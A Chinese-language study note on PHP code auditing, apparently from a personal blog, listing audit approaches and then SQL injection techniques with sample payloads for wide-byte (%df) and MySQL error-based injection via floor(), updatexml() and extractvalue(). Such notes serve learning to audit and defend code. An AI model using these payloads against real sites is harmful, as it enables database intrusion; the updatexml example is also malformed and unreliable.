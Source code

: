 ```yaml
---
title: CodeAuditBySeay
date: 2019-01-16 16:56:59
tags:
	[-php,-ReadingNote,-basic]
password: 666bbb
---
```






- 代码审计通用思路：关键字回溯、可控变量、敏感功能点。
- 需要关注的点：了解框架、关注配置文件、关注过滤文件（函数）、跟读首页文件。
- 需要关注的功能：文件上传、文件管理、登录、注册、转账、找回密码、修改密码。



## sql注入

> 普通注入、盲注、报错注入、宽字节、二次注入等

- 需要关注的函数：`select` 、`insert` 、`update` 、`delete` 、`mysql_connect` 、`mysql_query` 、`mysql_fetch_row` 等。

- 宽字节注入（%df）`id=-1%df'`

  > mysql_set_charset('gbk')、character_set_client=gbk、SET NAMES 'gbk'
  >
  > 修改：character_set_client=binary

- 二次urldecode注入（略）



### MySQL报错注入

sql server用 convert() 和 cast()

MySQL常见的有 floor 、 updatexml、 extractvalue。

floor():

```sql
id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

updatexml():

```sql
id=1 and (updatexml(1,concat(0x5e24,select user()),0x5e24,1))
```

extractvalue():

```sql
id=1 and (extractvalue(1, concat(0x5c, (select user()))))
```
